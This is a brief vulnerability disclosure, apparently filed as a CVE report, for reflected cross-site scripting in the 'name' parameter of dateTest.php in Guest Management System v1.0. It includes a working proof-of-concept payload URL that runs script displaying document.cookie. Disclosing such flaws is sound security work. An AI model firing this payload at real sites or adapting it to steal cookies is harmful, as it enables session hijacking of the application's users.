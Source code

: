 # Guest Management System v1.0 has reflected cross-site scripting

BUG_Author: DRXYJ

Website source code address:  https://www.sourcecodester.com/php/14664/guest-management-system-php-full-source-code.html

Vulnerability File: /guestmanagement/dateTest.php

GET parameter "name" exists reflected cross-site scripting vulnerability

Payload: /guestmanagement/dateTest.php?name="><script>alert(document.cookie)</script>&name1=Submit

The js code is successfully executed and the cookie value is returned, which proves that there is a reflected cross-site scripting vulnerability.

![image](https://github.com/xryj920/CVE/blob/main/xss.png)
